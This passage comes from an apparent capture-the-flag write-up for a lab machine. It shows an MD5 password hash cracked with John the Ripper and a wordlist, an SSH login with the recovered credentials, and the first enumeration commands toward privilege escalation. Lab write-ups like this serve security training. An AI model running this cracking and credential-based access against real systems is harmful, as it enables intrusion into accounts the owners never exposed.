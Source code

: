Credentials, according to the `nmap` scan, there's port 22 open which is OpenSSH, I tried to connect to the SSH using these creds after I cracked the password using `John The Ripper` tool using `Rockyou.txt` wordlist:

```bash
└─$ echo "fc895d4eddc2fc12f995e18c865cf273" > jamesmasonhash

└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt jamesmasonhash 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
Soleil101        (?)     
1g 0:00:00:00 DONE (2022-09-26 13:00) 1.754g/s 3668Kp/s 3668Kc/s 3668KC/s Sportster1..SoccerBabe
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Credentials are: `james_mason:Soleil101`, time for SSH:

```bash
└─$ ssh james_mason@$IP       
The authenticity of host '10.10.11.172 (10.10.11.172)' can't be established.
ED25519 key fingerprint is SHA256:UXHSnbXewSQjJVOjGF5RVNToyJZqtdQyS8hgr5P8pWM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.172' (ED25519) to the list of known hosts.
james_mason@10.10.11.172's password: 
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 14 14:45:22 2022 from 10.10.14.4
james_mason@shared:~$ 
```

I'm in! but the user flag belongs to a user `dan_smiths`, so I'll have to somehow make a horizontal privilege escalation. I've never done this before so I like this machine already.

---

## Horizontal Privilege Escalation

First few steps into the machine as `james_mason` I executed some commands to identify the environment and my privileges:

```bash
james_mason@shared:~$ ls
james_mason@shared:~$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
james_mason@shared:~$ groups
james_mason developer
james_mason@shared:~$ sudo -l
-bash: sudo: command not found
james_mason@shared:~$ ss -tulpn
Netid          State           Recv-Q          Send-Q                     Local Address:Port                     Peer Address:Port          Process          
udp            UNCONN          0               0                                0.0.0.0:68                            0.0.0.0:*                              
tcp            LISTEN          0               128                              0.0.0.0:22                            0.0.0.0:*                              
tcp            LISTEN          0               511                              0.0.0.0:443                           0.0.0.0:*                              
```